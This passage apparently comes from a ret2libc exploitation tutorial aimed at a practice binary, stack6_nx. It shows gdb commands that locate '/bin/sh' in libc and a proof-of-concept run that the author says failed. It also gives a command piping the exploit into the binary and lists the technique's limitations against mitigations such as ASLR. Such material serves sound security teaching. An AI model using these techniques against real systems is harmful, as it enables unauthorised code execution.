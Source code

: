 ```
	0xf7fbc000 0xf7fbd000     0x1000   0x1a9000 /lib32/libc-2.19.so
...TRIM...

(gdb) find 0xf7e12000,0xf7fbd000,"/bin/sh"
0xf7f71fcc
1 pattern found.

(gdb) x/s  0xf7f71fcc
0xf7f71fcc:	"/bin/sh"
```

2. Using **execve()** instead of **system()** might be better. Many people complains because of **system()** is not supported on their hosts. Be careful, execve() takes 3 args.

3. Using ENV variables can be an option to use as the function argument ("**SHELL=/bin/bash**").


#### 2.4 Final PoC

Following did not work for me, but it might work on yours:
```
(gdb) source x.py 
...TRIM...
(gdb) r <<< $(cat /tmp/exploit)
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: stack6_nx <<< $(cat /tmp/exploit)
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAp��AAAAAAAAAAAAp��PO����
[Inferior 1 (process 13214) exited normally]

(gdb) r < /tmp/exploit 
Starting program: stack6_nx < /tmp/exploit
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAp��AAAAAAAAAAAAp��PO����
[Inferior 1 (process 13639) exited normally]
```

```
$ (cat /tmp/exploit; cat) | ./stack6_nx
```

#### 2.5 Limitations of ret2libc

1. If functions are removed from libc/library.
2. If mitigations are used such as [ASCII Armoring](https://en.wikipedia.org/wiki/Binary-to-text_encoding#ASCII_armor): libc addresses contain a NULL byte (0x00). Then attacker can check for **return2plt** attack (system@plt etc).
3. If ASLR is used.
